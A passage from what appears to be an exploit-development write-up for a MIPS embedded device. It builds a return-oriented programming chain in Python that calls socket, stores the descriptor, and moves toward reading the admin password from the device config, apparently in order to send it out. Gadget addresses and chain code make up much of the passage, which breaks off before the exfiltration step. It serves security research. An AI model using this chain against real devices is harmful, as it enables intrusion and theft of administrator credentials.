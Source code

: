 ```
```

To get 2 into *$a2*, a single gadget didn't exist that could achieve this, so I chained a couple of nicer gadgets together to achieve the same result. 

It is worth highlighting that the *$sp* is at the 'top' of the gadget - let me explain. For the 'add 2 to a1' gadget for example, *$s0* is being loaded at an offset of 0 from *$sp* with the **lw $s0, ($sp)** instruction, and then *$ra* is being loaded at an offset of 4 from *$sp* with **lw $ra, 4($sp)**. The loaded *$s0* is above *$ra* in the chain construction, so you can imagine the stack pointer being at the start of *$s0*. I've found this to be the easiest way to visualise the stack pointer location as you build the chain, and it nicely compartmentalises each gadget used in the chain. 

Now, we need to actually call *socket*. We know the address of socket, so we can simply load the address of this function into a register, and then use a **jalr** call to call the function at the address in our register. After looking through a few gadgets, *$v0* was the best candidate, so the following gadgets were chained together to call *socket*:

```
-python
# Load address of socket into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(socket_addr) # v0 - socket address
chain += b'b' * 8
chain += p32(0x133d58 + base_address) # ra

# Call socket(2, 1, 0) and regain control
# 0x00133d58: jalr $v0; nop; move $s0, $v0; lw $ra, 0x24($sp); move $v0, $s0; lw $s2, 0x20($sp); lw $s1, 0x1c($sp); lw $s0, 0x18($sp); jr $ra; addiu $sp, $sp, 0x28; 
chain += b'b' * 0x18
chain += p32(sockfd_addr) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0x185e38 + base_address) # ra
```

That 2nd gadget is not the prettiest as it uses a lot of padding, but the only other gadget that contained the **jalr $v0;** instruction immediately wiped out the *sockfd* returned by *socket*, which is pretty important! Sometimes you need to accept not all gadgets will be pretty.

If you look at the last gadget, we set the value of *$s0* to be *sockfd_addr*, which is an address that we will be using to store our *sockfd* returned by *socket* for use later. We can then use the following gadget to store *$v0* (containing our return value) to *($s0)*:

```
-python
# save the socket file descriptor for use later, might not use but oh well
# 0x00185e38: sw $v0, ($s0); lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0x80236c4c - 4) # s0 (0x1010200 address)
chain += p32(0x153d0 + base_address) # ra
```

### config_get

Next, we need to get the value of the admin password from the config that will be sent. By tracing through the calls make by the command line **cfg get** function, I found the function responsible for pulling these values from the config. All we need to provide this function is the ID of the value we want, and where to store it. 
